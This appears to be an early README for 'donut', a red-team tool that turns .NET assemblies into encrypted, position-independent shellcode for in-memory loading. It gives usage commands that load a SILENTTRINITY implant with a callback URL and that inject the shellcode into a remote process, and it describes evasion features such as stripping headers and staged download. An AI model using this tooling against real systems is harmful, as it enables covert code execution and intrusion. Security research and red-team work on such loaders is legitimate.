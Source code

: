 # donut
Generates position-independant shellcode to bootstrap and load .NET Assemblies.

Usage:

.\donut.exe .\SILENTTRINITY_DLL.dll ST Main http://192.168.197.134:80

Running donut.exe will run the shellcode to test it, so be careful. 

You can test the payload in a remote process by using:

.\inject.exe /pic ./donut.exe64.bin /donut.cfg

How does this work? 

Overall, donut creates position-independant shellcode that loads a .NET Assembly using the Unmanaged CLR Hosting APIs. The .NET Assembly is encrypted using SPECK block cipher in CTR mode. It's very compact and doesn't take up much space but isn't easy to break. When the shellcode executes, it loads the CLR, decrypts the Assembly, loads it into the CLR, and executes the entry point specified by the user. Currently, it can only take on argument, but we are working on fixing that.

The DonutTest project is a C# tester that injects a calc popper into notepad using CreateRemoteThread.

# Project plan

We'll do it in stages to avoid feature creep and allow for iterative development.

1) Create a PIC payload to load an arbitrary .NET Assembly with n arguments. For DLLs, the user should specify the entry point. For EXEs, the PIC should get the Entry Point using Assembly.EntryPoint.
2) Create a C and Python generator for the PIC shellcode payloads.
3) Create reflective DLL injection version that uses a reflective bootstrap DLL (Unmanaged CLR Hosting API) to load the Assembly. Have the generator output both the shellcode and the bootstrap DLL. This is easier for operators to modify and lets them use the DLL for normal reflective DLL injection
4) Created staged versions of both of these payload types that downloads the Assembly from a URL.
5) Document everything so that these techniques are reproducible.
6) Polish the code and interface. Add miscellaneous options as needed.

*NEED TO UPDATE THE STUFF BELOW*

Design:

Microsoft provides an API for loading .NET Assemblies from unmanaged code called the Unmanaged CLR hosting API. It exists to allow developers to build custom loaders, and is how the Windows loader loads .NET EXEs and DLLs.

We use a CLR Hosting loader (based on Casey Smith's) to create an unmanaged DLL with your target Assembly embedded as a resource. This DLL bootstraps your code by loading the Common Language Runtime. It is designed to be loadable through DLLMain and Reflective DLL Injection.

The bootstrap DLL loads its payload from an embedded resource in its PE file. A slightly different version of the DLL is created for x64/x86 and .NET EXEs/DLLs.

The resulting DLL is then converted to position-independant shellcode using an adaptation of sRDI by monoxgas.

Our Python script performs the following logic to create the shellcode payload:

* Determine whether or not your Assembly payload is a DLL or EXE.
* Determine whether to create x86 or x64 shellcode.
* Determine which bootstrap DLL to use based on the information above.
* Replace the default resource in the bootstrap DLL with your payload Assembly and write the resulting DLL to output/payload_name/bootstrap.dll
* (Optional) Strip the PE headers from output/payload_name/bootstrap_stripped.bin
* Use sRDI's library to convert the resulting DLL to shellcode. Output the result to output/payload_name/{x86|x64}shellcode.bin *(We may need to customize this.)*

Usage:

python generator.py [-s] {x86 | x64} {Assembly.exe | Assembly.dll} payload_name

-s      Whether or not to strip headers from the bootstrap DLL.

*-x      Whether or not to XOR encrypt the .NET Assembly with a randomly-generated 256-bit XOR key. (Maybe add when everything else works.)*
